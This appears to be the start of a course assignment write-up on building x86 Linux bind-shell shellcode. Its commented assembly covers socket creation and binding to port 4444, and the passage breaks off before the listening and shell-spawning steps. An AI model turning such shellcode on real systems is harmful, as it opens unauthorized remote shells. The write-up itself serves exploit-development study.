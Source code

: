 # Assignment 1 #

In the first exercise, it is requested to realize a shellcode allowing to obtain a Shell Bind TCP.

The idea here is in a first step to create a socket, to link it to a port then to let it in a passive listening in order to accept incoming connections. The standard outputs stdin, stdout and stderr are redirected in order to be used once the connection is established with a distant shell. 

## Creation of a socket ##

The main reference in bibliography is the documentation of the system calls. http://man7.org/linux/man-pages/man2/socketcall.2.html. The socketcall is used to define the actions on sockets according to “call” field. The value “1” indicates that we are interested in a socket creation. Here we have to point to a domain, a type and a protocol. 
We take AF_INET as a domain which is value 2, SOCK_STREAM as a type which is value 1 and for the protocol the value will be 0.

```c
	xor ebx, ebx 		; ebx = 0
	mul ebx			; eax=ebx=edx = 0
	push ebx		; push 0 onto the stack
	inc ebx			; ebx = 1
	push ebx		; push 1 onto the stack
	push byte 0x2		; push 2 onto the stack
	mov ecx, esp		; set ecx to the address of our args
	mov al, 0x66		
	int 0x80		; make the syscall socketcall(socket(2,1,0))
```

## Creation of the binding ##

Firstly, we save the result of the socket creation in edx. Considering the prototype of the bind function presented below we should have the following values:
bind(edx, [2,4444,0], 16)

```c
	; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
	; bind(sockfd, [AF_INET, PORT, INADDR_ANY], 16)

	xchg eax, edx		; save sockfd into edx
	pop ebx			; set ebx = 2 (bind)
	pop esi			; pop 1
	push word 0x5c11	; push 4444 port onto the stack
	push word bx		; push 2 onto the stack
	mov ecx, esp		; set ecx the address of our args
	push 0x10		; push 16
	push ecx		; push address of our args
	push edx		; push sockfd
	mov ecx, esp		; ecx = end of the stack
	mov al, 0x66   		
	int 0x80		; make the syscall  socketcall(bind(sockfd, [2,4444,0], 16))

```
Now the stack looks like the below schema :
